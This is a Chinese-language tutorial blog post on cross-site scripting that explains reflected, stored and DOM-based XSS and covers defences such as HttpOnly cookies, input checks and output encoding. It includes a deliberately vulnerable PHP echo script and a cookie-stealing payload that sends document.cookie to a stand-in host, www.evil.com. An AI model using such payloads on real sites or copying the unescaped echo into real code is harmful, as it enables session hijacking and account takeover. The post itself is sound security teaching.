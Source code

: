 ```yaml
---
title: Web安全系列——XSS攻击
date: 2017-11-11 16:57:30
tags: Web安全
---  
```

>前段时间在学习Web安全方面的知识，对这方面有了更进一步的了解，决定写一些文章记录下来。文章知识Web安全方面知识的简单总结，没有太多的深度。
## XSS攻击简介  
跨站脚本攻击(XSS),英文全称 Cross Site Script, 是Web安全头号大敌。  
XSS攻击，一般是指黑客通过在网页中**注入恶意脚本**，当用户浏览网页时，恶意脚本执行，控制用户浏览器行为的一种攻击方式。其中，XSS攻击通常分为反射型XSS、存储型XSS、DOM Based XSS三种。可以通过以下例子看看XSS攻击是如何产生的。

## 一个简单的例子

本地服务器的的/xssTest 目录下，有一个test.php文件，代码如下：

	<?php
		$userName=$_GET['userName'];					//获取用户输入的参数
		echo "<b>".$userName."</b>";					//直接输出用户的参数给前端页面
	?>

正常情况下，用户提交的姓名可以正确显示在页面上，不会构成XSS攻击，比如，当用户访问以下URL：

	http://localhost/xssTest/test.php?userName=jack

页面会显示：  
![正常显示](https://wx4.sinaimg.cn/mw690/857afa84gy1flfq8adc1hj20dx03y3yk.jpg)  
可以看到，用户在URL中输入的参数正常显示在页面上。  



然后，我们尝试在URL中**插入JavaScript代码**，如：  
	
	http://localhost/xssTest/test.php?userName=<script>window.open(http://www.baidu.com)</script>

则页面会显示：  
![插入恶意脚本](https://wx4.sinaimg.cn/mw690/857afa84gy1flfq8q6g7bj20ok03h0ss.jpg)    

可以看到，页面没有把userName后面的内容显示出来，而且打开了一个新的标签页,原因是在URL中带有一段打开另一标签页的恶意脚本。  
这个例子虽然简短，但体现了最简单的XSS攻击的完整流程。  

## XSS攻击类型
根据攻击的方式，XSS攻击可以分为三类：反射型XSS、存储型XSS、DOM Based XSS。

**反射型XSS**也被称为非持久性XSS,这种攻击方式把XSS的Payload写在URL中，通过浏览器直接“反射"给用户。这种攻击方式通常需要诱使用户点击某个恶意链接，才能攻击成功。  
**存储型XSS**又被称为持久性XSS,会把黑客输入的恶意脚本存储在服务器的数据库中。当其他用户浏览页面包含这个恶意脚本的页面，用户将会受到黑客的攻击。一个常见的场景就是黑客写下一篇包含恶意JavaScript脚本的博客文章，当其他用户浏览这篇文章时，恶意的JavaScript代码将会执行。  
**DOM Based XSS** 是一种利用前端代码漏洞进行攻击的攻击方式。前面的反射型XSS与存储型XSS虽然恶意脚本的存放位置不同，但其本质都是利用后端代码的漏洞。  
反射型和存储型xss是服务器端代码漏洞造成的，payload在响应页面中，DOM Based中，payload不在服务器发出的HTTP响应页面中，当客户端脚本运行时（渲染页面时），payload才会加载到脚本中执行。

## XSS攻击的危害
我们把进行XSS攻击的恶意脚本成为XSS Payload。XSS Payload的本质是JavaScript脚本，所以JavaScript可以做什么，XSS攻击就可以做什么。  
一个最常见的XSS Payload就是盗取用户的Cookie,从而发起Cookie劫持攻击。Cookie中，一般会保存当前用户的登录凭证，如果Cookie被黑客盗取，以为着黑客有可能通过Cookie直接登进用户的账户，进行恶意操作。  
如下所示，攻击者先加载一个远程脚本：  

	http://localhost/xssTest/test.php?userName=<scriipt src=http://www.evil.com/evil.js></script>  
而真正的XSS Payload，则写在远程脚本evil.js中。在evil.js中，可以通过下列代码窃取用户Cookie：

	var img=document.createElement("img");
	img.src="http://www.evil.com/log?"+escape(document.cookie);  
	document.body.appendChild(img);  

这段代码插入了一张看不见的图片，同时把document.cookie作为参数，发到远程服务器。黑客在拿到cookie后，只需要替换掉自身的cookie，就可以登入被盗取者的账户，进行恶意操作。  
一个网站的应用只需要接受HTTP的POST请求和GET请求，就可以完成所有的操作，对于黑客而言，仅通过JavaScript就可以完成这些操作。  
## 防御  
其实如今一些流行的浏览器都内置了一些对抗XSS的措施，比如Firefox的CSP、IE 8内置的XSS Filter等。除此之外，还有以下防御手段
### HttpOnly
HttpOnly最早是由微软提出，并在IE6中实现的，至今已逐渐成为一个标准。浏览器将禁止页面的JavaScript访问带有HttpOnly 属性的Cookie。以下浏览器开始支持HttpOnly:  


- Microsoft IE 6 SP1+  
- Mozilla FireFox 2.0.0.5+  
- Mozilla Firefox 3.0.0.6+  
- Google Chrome  
- Apple Safari 4.0+  
- Opera 9.5+

一个Cookie的使用过程如下：  
Step1: 浏览器向服务器发送请求，这时候没有cookie。   
Step2: 服务器返回同时，发送Set-Cookie头，向客户端浏览器写入Cookie。  
Step3: 在该Cookie到期前，浏览器访问该域名下所有的页面，都将发送该Cookie。  
而HttpOnly是在Set-Cookie时标记的。      
### 输入检查
常见的Web漏洞，如XSS、SQL注入等，都要求攻击者构造一些特殊的字符串，而这些字符串是一般用户不会用到的，所以进行输入检查就很有必要了。  
输入检查可以在用户输入的**格式检查**中进行。很多网站的用户名都要求是字母及数字的组合如“abc1234”，其实也能过滤一部分的XSS和SQL注入。但是，这种在客户端的限制很容易**被绕过**，攻击者可以用JavaScript或一些请求工具，直接构造请求，想网站注入XSS或者SQL。所以，除了在客户端进行格式检查，往往还需要在后端进行二次检查。客户端的检查主要作用是阻挡大部分误操作的正常用户，从而节约服务器资源。  
### 对输出转义
在输出数据之前对潜在的威胁的字符进行编码、转义是防御XSS攻击十分有效的措施。
1. 为了对抗XSS,在HtmlEncode中至少转换以下字符：

< 转成 `&lt`;

`>` 转成 `&gt`;

& 转成 `&amp`;

" 转成 `&quot`;

' 转成 `&#39`  

----------


参考链接：  
[https://www.zhihu.com/question/26628342](https://www.zhihu.com/question/26628342 "DOM-based XSS 与存储性 XSS、反射型 XSS 有什么区别？")

《白帽子讲Web安全》
